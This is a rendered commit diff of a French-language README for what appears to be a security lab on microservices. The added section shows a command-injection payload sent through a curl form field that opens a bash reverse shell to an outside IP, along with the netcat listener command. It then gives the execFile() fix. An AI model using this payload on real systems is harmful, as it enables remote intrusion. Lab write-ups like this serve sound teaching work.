

Before and after one commit to LennyGonzales/8.2.1-Microservices, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
docs: reverse shell

````diff
--- a/README.md
+++ b/README.md
@@ -356,6 +356,19 @@ curl -X POST http://vulnnode.infres.fr/post.html --data-urlencode "lookup=google
 ```
 `uid=1000(node) gid=1000(node)`
 
+Ainsi, nous pouvons faire un reverse shell.
+Sur notre machine (attaquant) :
+```bash
+nc -lvnp 9001
+```
+
+Payload :
+```bash
+curl -X POST http://vulnnode.infres.fr/post.html --data-urlencode "lookup=google.com; bash -c 'sh -i >& /dev/tcp/159.31.66.203/9001 0>&1'"
+```
+
+La connexion a été faites depuis `10.42.0.82:46442`.
+
 Pour prévenir cela, nous pouvons utiliser `execFile()` avec des arguments séparés au lieu de concaténer l'input utilisateur avec une commande shell.
 
 ## Étape 3 : Credentials pour mouvement latéral
````
